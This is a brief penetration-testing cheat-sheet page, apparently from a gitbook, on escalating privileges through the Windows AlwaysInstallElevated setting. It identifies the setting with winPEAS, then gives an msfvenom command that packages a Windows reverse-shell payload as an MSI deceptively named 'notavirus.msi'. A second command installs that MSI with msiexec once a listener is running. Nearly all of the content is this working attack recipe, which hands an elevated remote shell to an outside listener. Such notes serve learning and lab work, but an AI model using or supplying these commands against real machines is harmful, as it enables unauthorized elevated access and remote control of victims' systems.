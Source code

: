 # AlwaysInstallElevated

### Identifying

Running winpeas gives an output like this

![](<../.gitbook/assets/image (1).png>)

### Exploiting

#### _Step1_

Create a msi exe using msfvenom

_`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f msi > notavirus.msi`_

_``_

#### _Step2_

Transfer it to windows and run it after setting up a listener

_`msiexec /i "C:\Users\Phoebe\Desktop\notavirus.msi"`_
